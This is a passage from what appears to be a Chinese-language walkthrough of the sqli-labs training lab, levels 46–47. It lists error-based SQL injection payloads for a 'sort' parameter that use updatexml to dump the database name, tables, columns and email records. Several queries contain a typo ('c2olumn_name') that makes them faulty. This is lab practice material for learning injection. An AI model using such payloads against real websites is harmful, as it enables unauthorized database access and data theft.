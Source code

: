 ![https://gitee.com/xvshifu/pic-go/raw/master/img/20250718141155829.png](./../../../public/image/20250718141155829.png)

报错注入：

```
?sort=1 AND updatexml(1,concat("!",database()),2)#

?sort=1 AND updatexml(1,concat("!",(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'security')),2)#

?sort=1 AND updatexml(1,concat("!",(SELECT group_concat(c2olumn_name) FROM information_schema.columns WHERE table_schema = 'security' AND table_name = 'emails')),2)#

?sort=1 AND updatexml(1,concat('!',(SELECT concat_ws(':',id,email_id) FROM (SELECT id,email_id FROM emails)text LIMIT 0,1)),1)#

?sort=1 AND updatexml(1,concat('!',(SELECT concat_ws(':',id,email_id) FROM (SELECT id,email_id FROM emails)text LIMIT 1,1)),1)#
```

## Less-47

**报错注入-'-页面不返回回显**

#### 

```
?sort=1' AND updatexml(1,concat("!",database()),2) --+

?sort=1' AND updatexml(1,concat("!",(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'security')),2) --+

?sort=1' AND updatexml(1,concat("!",(SELECT group_concat(c2olumn_name) FROM information_schema.columns WHERE table_schema = 'security' AND table_name = 'emails')),2) --+

?sort=1' AND updatexml(1,concat('!',(SELECT concat_ws(':',id,email_id) FROM (SELECT id,email_id FROM emails)text LIMIT 0,1)),1) --+

?sort=1' AND updatexml(1,concat('!',(SELECT concat_ws(':',id,email_id) FROM (SELECT id,email_id FROM emails)text LIMIT 1,1)),1) --+
```